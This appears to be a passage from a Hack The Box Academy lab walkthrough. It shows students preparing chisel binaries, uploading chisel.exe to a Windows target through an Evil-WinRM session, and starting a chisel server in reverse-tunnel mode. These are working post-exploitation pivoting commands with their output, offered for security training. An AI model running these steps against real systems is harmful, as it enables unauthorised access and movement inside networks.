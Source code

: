 Once downloaded, students will proceed to unzip them using `gunzip`:

Code: shell

```shell
gunzip chisel_1.9.1_*
```

```shell-session
┌─[htb-ac-8414@htb-qm41uzp2hn]─[~]
└──╼ $ gunzip chisel_1.9.1_*
```

Subsequently, students will proceed to rename the `chisel_1.9.1_windows_amd64` to `chisel.exe`, then change the permissions over `chisel_1.9.1_linux_amd64` to be executable:

Code: shell

```shell
mv chisel_1.9.1_windows_amd64 chisel.exe
chmod +x chisel_1.9.1_linux_amd64
```

```shell-session
┌─[htb-ac-8414@htb-qm41uzp2hn]─[~]
└──╼ $ mv chisel_1.9.1_windows_amd64 chisel.exe

┌─[htb-ac-8414@htb-qm41uzp2hn]─[~]
└──╼ $ chmod +x chisel_1.9.1_linux_amd64
```

Students will use the `upload` functionality of `Evil-WinRM` to upload the `chisel.exe` executable onto the target:

Code: shell

```shell
upload chisel.exe
```

```shell-session
*Evil-WinRM* PS C:\Users\Frewdy\Documents> upload chisel.exe
                                        
Info: Uploading /home/htb-ac-8414/chisel.exe to C:\Users\Frewdy\Documents\chisel.exe
                                        
Data: 12008104 bytes of 12008104 bytes copied
                                        
Info: Upload successful!
```

Students will return to their workstations, they can terminate the Python HTTP server, and they will proceed to start `chisel` in `server` mode:

Code: shell

```shell
./chisel_1.9.1_linux_amd64 server --reverse 
```

```shell-session
┌─[eu-academy-5]─[10.10.14.221]─[htb-ac-8414@htb-1qi0mc04vu]─[~]
└──╼ [★]$ ./chisel_1.9.1_linux_amd64 server --reverse

2024/07/11 07:18:24 server: Reverse tunnelling enabled
2024/07/11 07:18:24 server: Fingerprint VDA2XZJTiqs3QRPtx7qBVak5SWzIMiWm53XD3b+AKF0=
2024/07/11 07:18:24 server: Listening on http://0.0.0.0:8080
```
